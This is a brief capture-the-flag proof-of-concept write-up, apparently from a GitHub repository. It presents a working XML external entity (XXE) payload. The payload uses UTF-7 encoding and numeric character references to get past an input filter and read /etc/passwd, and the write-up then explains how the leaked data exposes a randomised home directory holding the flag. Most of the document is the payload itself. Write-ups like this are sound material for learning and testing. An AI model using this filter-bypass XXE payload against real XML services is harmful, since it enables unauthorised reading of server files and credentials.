 # PoC

Simple challenge that bypass the filter using UTF-7 encoding!
This example below is try to read **/etc/passwd**.

```xml
<?xml version="1.0" encoding="UTF-7" standalone="yes" ?>
+ADw!DOCTYPE root +AFs
  +ADw!ENTITY % pwn "
  +ADw!ENTITY data &#83;&#89;&#83;&#84;&#69;&#77; '&#47;&#101;&#116;&#99;&#47;&#112;&#97;&#115;&#115;&#119;&#100;'>
  ">
%pwn;
+AF0>
<svg>
  <p>&data;</p>
</svg>
```

The example above is also to read the randomize user home directory.
After all randomize value is leaked we're already to get the flag, which is like **/home/[random]/flag.txt**
